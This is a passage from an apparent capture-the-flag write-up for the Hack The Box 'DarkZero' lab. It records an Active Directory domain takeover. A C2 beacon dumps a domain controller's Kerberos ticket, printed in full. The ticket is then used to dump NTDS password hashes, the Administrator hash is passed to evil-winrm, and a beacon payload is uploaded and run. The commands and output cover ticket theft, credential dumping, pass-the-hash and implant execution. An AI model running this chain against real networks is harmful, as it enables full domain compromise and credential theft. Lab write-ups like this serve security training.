| 0:0x3e7     | dc02$ @ DARKZERO.EXT                     | krbtgt/DARKZERO.EXT                      | 21.08.2026 02:06:46 |
| 0:0x3e7     | dc02$ @ DARKZERO.EXT                     | cifs/DC02.darkzero.ext/darkzero.ext      | 21.08.2026 02:06:46 |
| 0:0x3e7     | dc02$ @ DARKZERO.EXT                     | GC/DC02.darkzero.ext/darkzero.ext        | 21.08.2026 02:06:46 |
| 0:0x3e7     | dc02$ @ DARKZERO.EXT                     | ldap/dc01.darkzero.htb/darkzero.htb      | 21.08.2026 02:06:46 |
| 0:0x3e7     | dc02$ @ DARKZERO.EXT                     | cifs/DC02                                | 21.08.2026 02:06:46 |
| 0:0x3e7     | dc02$ @ DARKZERO.EXT                     | DC02$                                    | 21.08.2026 02:06:46 |
| 0:0x3e7     | dc02$ @ DARKZERO.EXT                     | LDAP/DC02.darkzero.ext/darkzero.ext      | 21.08.2026 02:06:46 |
| 0:0x3e7     | dc02$ @ DARKZERO.EXT                     | ldap/DC02.darkzero.ext                   | 21.08.2026 02:06:46 |
| 0:0x3e7     | dc02$ @ DARKZERO.EXT                     | LDAP/DC02                                | 21.08.2026 02:06:46 |
--------------------------------------------------------------------------------------------------------------------------
[20/08 22:10:16] [+] BOF finished

+--- Task [6ccf7130] closed ----------------------------------------------------------+
```

Ill list the tickets, im targeting the dc01 

```python
+--- Task [6ccf7130] closed ----------------------------------------------------------+

[20/08 22:10:22] ethan [ca1efd19] beacon > kerbeus dump /user:DC01$ /service:krbtgt
[20/08 22:10:22] [*] Task: Kerbeus DUMP
[20/08 22:10:25] [*] Agent called server, sent [18.15 Kb]
[20/08 22:10:25] [+] BOF output

Action: List Kerberos Tickets for 'DC01$'

[*] Target service  : krbtgt
[*] Target user     : DC01$

UserName                : DC01$
Domain                  : darkzero
LogonId                 : 0:0x282219
Session                 : 0
UserSID                 : S-1-5-21-1152179935-589108180-1989892463-1000
Authentication package  : Kerberos
LogonServer             : 
UserPrincipalName       : 

[*] Cached tickets: (1)

  [0]
	ClientName               :  DC01$ @ DARKZERO.HTB
	ServiceRealm             :  krbtgt/DARKZERO.HTB @ DARKZERO.HTB
	StartTime (UTC)          :  20.08.2026 16:05:51
	EndTime (UTC)            :  21.08.2026 02:05:50
	RenewTill (UTC)          :  27.08.2026 16:05:50
	Flags                    :  forwardable forwarded renewable pre_authent enc_pa_rep 
	KeyType                  :  aes256_cts_hmac_sha1

	doIFjDCCBYigAwIBBaEDAgEWooIElDCCBJBhggSMMIIEiKADAgEFoQ4bDERBUktaRVJPLkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMREFSS1pFUk8uSFRCo4IETDCCBEigAwIBEqEDAgECooIEOgSCBDaClErSDym0H7vKdInRS0hDerSC3yUPH7q0yk/y5pngjQEOznNkFALa0YgSvN7YbAUr6kU0Z31kOWO+W+5LmNCZOHNLE7L8d7eX5LNRTzM+uFi1KloxnU+9kc0HxiLdtbVqiLQVQMloXATpPzFSADhyJK1pDZ6DfiZXXOb3BiqrqK2JQExLfzQZYqyZ9eLKJF4Rha9oIShTT9Dqtlbnq1teQGZ4J9OBXPOdRhlauw3gT0t3mRyEsKhITAAHtWnxPu6H0f1h/am3s7oG34lEV/zslImIyU8OmHh0G2rK1b6vXAQcErsVrEvq35HgA9nPmB8PM0YznlGtZWk4BINnVnxrepTpLcMMNCFkqkVPz4UlYrZMwfP9VgzyN0txurxNFJphL4muifa8PGx9PzZ6ck7uRZztnY8uJenn+uAs3o4bF4vw24RZALUlbNioKZVPyOTW4dwxhhA/lfmbwSef+uK7nq3OGZfA+ks6irhQAgeU2zWkhrHKhRUVhbyVsGvg6uf3NUj4/CvDo+dXK6zHaeUyLmIwh/pmUjnc+MP0DyhK/kkhNVzkNLhd9Sshw3qmoRsNIyZU0yuTNiSJY2BH1o7MBIzJCODO05+fLomg5RRFFuQgwe+qKppNFQ9k6c9DfCy9h+AEdhXqr9CTENphoQrxbZIzNpV7yNZyG8EKi74s3AL+KW0tE1EggSo0QfRJgGhLUt6CY6DZ0vGg/9V9MKldWQ1ftORTqCUtjuCsL9rbJ/WE2JF2UBBbzLCw3JHfEm0TVZaLqxRawsghd/BAihRQ7yNMgbLA25YFgjmcS0ohB56KVvnhp1H5kIZ4BaakWyPZFsjB5xPvQHY66b5sY2Q4L314NCI2Wom9RYC2LtVb3832LpS0yFERb+keRjMfqSkWF2hv/mxw3Q5Oz7MyurgeXnPkM+vW883dk3Eu/ZZz5keCjdTm8cgHX6zURN2VxI2skML+cIk6WZNjfnjRTMHs4OpqbAGSN/3CYlVpDm9oYsyWXC/y2RAAqIK69Piuyf0AtyMdgRfndzqqrxQ5uQNYJDBWTYjt09yJw+3RVcxGnTRT8SInSA6qTk91Xo2HNpnAdaiuT2ily3Nu4Dkb19zOxIr41xqEhkTDEJC6NGgfOK+By1iVfVaj3Hj6dJlJYA60uGNF+h71J5ZR+yruR5is9ZzMvi92/YCf4E3XoWAk4nOrzCh7Ia1zdBdkpSlaEibN1k61bc+Ryv6k6Xhxk91ucYMZU9kNFsLtcYOfz/dy5R9dXn/0ew31Jj8eYRwyVDjjq/h1K++Z6BNDnrWnk80j9QFltRARpj1+TzKcsHGt0NLS4KQtDfVeOHC9FDf5Hi1IOUPdnxR+Z8ROKQxlODiqhxx/ucvaJNEcfdsfaUkEtbLCsME4AUrxGkKwfcryLGXI8O1901L/MwjyNgzl8VuRP38zLSfDo4HjMIHgoAMCAQCigdgEgdV9gdIwgc+ggcwwgckwgcagKzApoAMCARKhIgQgpgldsgNlBUT7MwTQuTRH+v02njnk4tEjoRt67550cvShDhsMREFSS1pFUk8uSFRCohIwEKADAgEBoQkwBxsFREMwMSSjBwMFAGChAAClERgPMjAyNjA4MjAxNjA1NTFaphEYDzIwMjYwODIxMDIwNTUwWqcRGA8yMDI2MDgyNzE2MDU1MFqoDhsMREFSS1pFUk8uSFRCqSEwH6ADAgECoRgwFhsGa3JidGd0GwxEQVJLWkVSTy5IVEI=
[20/08 22:10:25] [+] BOF finished

+--- Task [ca1efd19] closed ----------------------------------------------------------+
```

Now ill dump the ticket!

Ill then save this to a file on my machine!

```python
nano dc01.b64

ticketConverter.py dc01.b64 --base64 dc01.ccache
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] base64 decoding ticket
[*] converting kirbi to ccache...
[+] done
```

Ill save it to a file then convert it to a ccache file

```python
export KRB5CCNAME=dc01.ccache
```

Ill then export it

```python
nxc smb dc01.darkzero.htb --use-kcache --ntds                                                     
SMB         dc01.darkzero.htb 445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:darkzero.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc01.darkzero.htb 445    DC01             [+] DARKZERO.HTB\DC01$ from ccache 
SMB         dc01.darkzero.htb 445    DC01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         dc01.darkzero.htb 445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         dc01.darkzero.htb 445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:5917507bdf2ef2c2b0a869a1cba40726:::
SMB         dc01.darkzero.htb 445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         dc01.darkzero.htb 445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:64f4771e4c60b8b176c3769300f6f3f7:::
SMB         dc01.darkzero.htb 445    DC01             john.w:2603:aad3b435b51404eeaad3b435b51404ee:44b1b5623a1446b5831a7b3a4be3977b:::
SMB         dc01.darkzero.htb 445    DC01             DC01$:1000:aad3b435b51404eeaad3b435b51404ee:d02e3fe0986e9b5f013dad12b2350b3a:::
SMB         dc01.darkzero.htb 445    DC01             darkzero-ext$:2602:aad3b435b51404eeaad3b435b51404ee:ab86825c846fe43b222c88da4d39bf9e:::
SMB         dc01.darkzero.htb 445    DC01             [+] Dumped 6 NTDS hashes to /home/kali/.nxc/logs/ntds/DC01_dc01.darkzero.htb_2026-08-20_221613.ntds of which 4 were added to the database
SMB         dc01.darkzero.htb 445    DC01             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         dc01.darkzero.htb 445    DC01             [*] grep -iv disabled /home/kali/.nxc/logs/ntds/DC01_dc01.darkzero.htb_2026-08-20_221613.ntds | cut -d ':' -f1
```

Then i can dump the secrets!

```python
evil-winrm -i dc01.darkzero.htb -u Administrator -H '5917507bdf2ef2c2b0a869a1cba40726'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

```python
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```

Domain Admin

```python
*Evil-WinRM* PS C:\Users\Administrator\Desktop> upload http.x64.exe
                                        
Info: Uploading /home/kali/htb/darkzero/http.x64.exe to C:\Users\Administrator\Desktop\http.x64.exe
                                        
Data: 120148 bytes of 120148 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ./http.x64.exe
```

And just for fun ill upload my beacon payload and execute it





Full domain compromise!
